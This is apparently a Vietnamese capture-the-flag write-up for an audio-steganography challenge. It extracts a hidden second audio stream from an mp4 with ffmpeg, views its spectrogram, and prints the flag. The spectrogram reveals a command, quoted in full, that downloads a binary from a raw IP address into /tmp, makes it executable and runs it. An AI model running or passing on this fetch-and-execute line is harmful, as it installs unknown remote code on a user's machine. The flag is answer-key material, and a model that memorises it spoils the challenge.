


# Sorry, you're NOT a sigma!

## Description:

> The lion says solve this challenge. You seem to have a good track record at doing so.

## Solution:

Mở lên là 1 video không có gì đặc biệt

Sử dụng công cụ **ffmpeg** để phân tích file .mp4

```
ffmpeg -i lion.mp4
```

Ta thấy có 1 điều bất thường là có 2 tream

```
 Stream #0:1[0x2](und): Audio: aac (LC) (mp4a / 0x6134706D), 48000 Hz, stereo, fltp, 128 kb/s (default)
      Metadata:
        handler_name    : SoundHandler
        vendor_id       : [0][0][0][0]
  Stream #0:2[0x3](und): Audio: aac (LC) (mp4a / 0x6134706D), 22050 Hz, stereo, fltp, 121 kb/s
      Metadata:
        handler_name    : SoundHandler
        vendor_id       : [0][0][0][0]
```

Ta thấy stream thứ 2 có chất lượng rất thấp chỉ có tần số 22050 Hz, ta sẽ trích xuất riêng ra

```
ffmpeg -i lion.mp4 -map 0:2 -c copy audio.acc
```

Mở lên ta thấy âm thanh khá dị nên cho vào audacity mở ở chế độ **spectrogram** ta sẽ thấy 1 đoạn lệnh ẩn


```
curl -s http://23.179.17.40:6969/roar -o /tmp/roar && chmod +x /tmp/roar && /tmp/roar

```



```
flag: CIT{wh3n_th3_l10n_sp34k5_y0u_l1st3n}
```
